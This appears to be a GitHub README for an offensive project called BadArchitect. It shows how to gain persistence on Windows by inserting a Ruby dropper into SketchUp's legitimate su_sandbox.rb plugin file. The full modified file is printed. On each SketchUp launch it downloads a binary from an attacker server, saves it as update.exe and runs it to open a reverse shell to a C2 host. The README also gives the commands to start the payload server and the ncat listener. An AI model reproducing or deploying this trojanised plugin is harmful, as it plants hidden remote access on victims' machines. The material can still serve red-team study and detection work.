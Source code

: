 # BadArchitect
The purpose of this project is to show you how to abuse SketchUp to make persistence on Windows.

# What's SketchUp
> SketchUp, formerly Google Sketchup, is a 3D modeling computer program for a wide range of drawing applications such as architectural, interior design, landscape architecture, civil and mechanical engineering, film and video game design. It is available as a web-based application, SketchUp Free, a freeware version, SketchUp Make, and a paid version with additional functionality, SketchUp Pro.
> SketchUp is owned by Trimble Inc., a mapping, surveying and navigation equipment company. There is an online library of free model assemblies (e.g. windows, doors, automobiles), 3D Warehouse, to which users may contribute models. The program includes drawing layout functionality, allows surface rendering in variable "styles", supports third-party "plug-in" programs hosted on a site called Extension Warehouse to provide other capabilities (e.g. near photo-realistic rendering) and enables placement of its models within Google Earth. 
[Wikipedia](https://en.wikipedia.org/wiki/SketchUp)

# Ruby
Since SketchUp 4 a Ruby interpreter is available to improve the extensions development. [Here's](https://github.com/SketchUp/sketchup-ruby-api-tutorials/tree/master/tutorials/01_hello_cube) an example of how to create one.

# Abusing the Ruby interpreter
The idea behind this trick is quite simple: infect any installed extension with a ruby code which downloads and execute a tcp reverse  shell (**DON'T USE A TCP REVERSE SHELL IN REAL SCENARIOS. YOU WILL EASILY GET BUSTED AND GETTING BUSTED FOR THIS IS REALLY DUMB**).

### Ruby dropper
Edit the file `dropper.rb` and define the values for the following variables:
 - webserver - Server which host the malicious binary
 - clientbinary - Name of the malicious binary
 - c2_host - Server which will receive the reverse shell
 - c2_port - Port used by the reverse shell

### Binary client
You can find on this repository the golang script and the compiled version responsible for executing the reverse shell, but as said before, don't use this tcp reverse shell payload in a real world scenario.

### Infection process
For this example we'll use the `su_sandbox.rb`, which can be located on Windows at `$HOME/AppData/Roaming/SkechUp/SkechUp [YEAR]/SkechUp/Plugins`. All we need to do is edit this file and insert the content of `dropper.rb`. At the end the file should be like this:
```ruby
# Copyright 2017, Trimble Inc

# This software is provided as an example of using the Ruby interface
# to SketchUp.

# Permission to use, copy, modify, and distribute this software for
# any purpose and without fee is hereby granted, provided that the above
# copyright notice appear in all copies.

# THIS SOFTWARE IS PROVIDED "AS IS" AND WITHOUT ANY EXPRESS OR
# IMPLIED WARRANTIES, INCLUDING, WITHOUT LIMITATION, THE IMPLIED
# WARRANTIES OF MERCHANTABILITY AND FITNESS FOR A PARTICULAR PURPOSE.

#-----------------------------------------------------------------------------
# Name        :   Sandbox Extension Manager
# Description :   A script that loads the Sandbox Tools as an extension to
#                 SketchUp
# Menu Item   :   N/A
# Context Menu:   N/A
# Usage       :   N/A
# Date        :   11/18/2004
# Type        :   N/A
#-----------------------------------------------------------------------------

require 'sketchup.rb'
require 'extensions.rb'
require 'langhandler.rb'
require 'open-uri.rb'

webserver = "192.168.1.100:8080" clientbinary = "client-rev-tcp.exe"
envuser = ENV["HOME"]
path = "#{envuser}/Downloads/update.exe"

File.open(path, "wb") do |saved_file|
  # the following "open" is provided by open-uri
  open("http://#{webserver}/#{clientbinary}", "rb") do |read_file|
    saved_file.write(read_file.read)
  end
end

c2_host = "192.168.0.10"
c2_port = "8090"
system("START /B \"SketchUp\" #{path} -hostname #{c2_host} -port #{c2_port}")

module Sketchup::SandboxTools
$tStrings = LanguageHandler.new("sandbox.strings")

#Register the Sandbox Tools with SU's extension manager
meshToolsExtension = SketchupExtension.new($tStrings.GetString(
  "Sandbox Tools"), "su_sandbox/sandboxmenus")

meshToolsExtension.description=$tStrings.GetString(
  "Adds items to the Draw and Tools menus for creating and editing " +
  "organic shapes such as terrain.")
# Version History:
# SketchUp 2018: 2.3.2
meshToolsExtension.version = "2.3.1"
meshToolsExtension.creator = "SketchUp"
meshToolsExtension.copyright = "2017, Trimble Inc."

#Default on in pro and off in free
Sketchup.register_extension meshToolsExtension, Sketchup.is_pro?


end # module Sketchup::SandboxTools
```

### Reverse shell
Now for everything to work make sure to validate the following steps before starting the reverse shell: 
- Validate if the server responsible for the payload download is running (`python2.7 -m SimpleHTTPServer 8080`)
- Validate if the server responsible for receiving the reverse shell is running (`ncat -lkvp 8090`)
And for the final step open a new instance of SketchUp then you should receive a shell just like on the video below:
[![SketchUp - Reverse Shell Dropper](http://img.youtube.com/vi/pDOF7tR8tmQ/0.jpg)](http://www.youtube.com/watch?v=pDOF7tR8tmQ)


